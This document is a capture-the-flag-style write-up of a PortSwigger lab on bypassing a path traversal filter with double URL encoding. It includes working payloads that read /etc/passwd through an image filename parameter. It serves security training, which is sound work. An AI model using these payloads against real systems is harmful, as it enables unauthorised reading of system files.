 # File path traversal, traversal sequences stripped with superfluous URL-decode

**Lab Url**: [https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

![Lab Description](img/lab-description.png)

## Goal

This lab demonstrates a path traversal vulnerability. The application blocks input containing path traversal sequences but performs URL decoding on the input before using it. The goal is to retrieve the contents of `/etc/passwd`.

## Information

**URL encoding** is a method to encode data in a Uniform Resource Identifier (URI) using US-ASCII characters. It ensures that special characters, reserved symbols, and non-ASCII characters in a URL are correctly interpreted by web browsers and servers. URL encoding replaces unsafe characters with a "%" followed by their hexadecimal ASCII value, preventing parsing conflicts and ensuring data integrity. This is essential for handling spaces (`%20`), query parameters (`&` and `=`), and characters with special meanings in URLs.

You can find more information [here](https://en.wikipedia.org/wiki/Percent-encoding).

## Conclusion

Solutions from previous labs won't work here because, as stated in the lab description, the application first strips path traversal sequences and then decodes the input. Simply URL encoding the payload is also ineffective, as one level of URL decoding is usually done by the server upon receiving the request. Therefore, encoding `../` as `%2e%2e%2f` is insufficient. The server decodes the URL and passes `../` to the application, which filters it out.

To bypass this, we can URL-encode the encoded string again.

```bash
../ --> ..%2F --> ..%252F
```

OR

```bash
../../../ --> %2e%2e%2f%2e%2e%2f%2e%2e%2f -> %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66
```

## Payload

```bash
/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
```

```bash
/image?filename=..%252f..%252f..%252fetc/passwd
```

![Retrived Content](img/retrived-content.png)

![Lab Solved](img/lab-solved.png)

